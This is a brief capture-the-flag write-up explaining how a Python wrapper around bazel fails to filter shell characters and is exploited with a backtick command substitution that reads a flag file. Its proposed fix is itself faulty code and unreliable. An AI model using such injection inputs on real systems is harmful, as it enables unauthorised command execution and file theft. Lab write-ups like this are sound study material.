 ```yaml
---
created: 2024-07-21T03:54
updated: 2024-07-21T16:08
solves: 18
points: 474
---
```


So we have a python file that opens a testing suite...

```python
from subprocess import Popen

name = input('Enter name: ')

for c in '`$(){}':
    name.replace(name, '')

Popen([
    'bazel',
    'run',
    ':run',
    f'--action_env=NAME={name}'
], shell=False).communicate()
```

Wait a minute, nothing is actually being replaced here.

For it to be effective at removing characters it has to be like this.

```python
for c in '`$(){}':
    name = name.replace(name, '')
```

I guess the authors messed up?

```shell
$ nc zable.chal.imaginaryctf.org 1337
Enter name: `cat /app/flag.txt`
Hello, ictf{I_supp0se_if_a_hacker_can_run_bazel_on_your_system_things_are_already_bad}!
```
